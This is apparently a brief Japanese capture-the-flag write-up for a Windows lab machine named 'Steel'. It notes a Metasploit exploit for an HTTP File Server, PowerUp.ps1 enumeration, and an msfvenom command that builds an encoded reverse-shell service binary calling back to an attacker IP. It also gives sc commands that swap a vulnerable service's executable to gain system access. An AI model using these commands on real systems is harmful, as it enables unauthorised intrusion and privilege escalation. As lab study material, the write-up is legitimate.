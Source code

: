 ```yaml
---
title: "Steel"
date: 2024-03-16T14:11:33+09:00
draft: false
---
```


初めての windows

### user

- HTTP File Server があるので metasploit で CVE を見つける

### root

- windows は PowerUP.ps1 が使える
  - ```upload /PowerUp.ps1```
  - ```Invoke-AllChecks```
- AdvancedSystemCareService9 が再起動できるので，悪意ある exe に置き換える
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```
- "shell" でシェルを起動
  - ```sc stop AdvancedSystemCareService9```
  - ```copy ASCService C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe```
  - ```sc start AdvancedSystemCareService9```
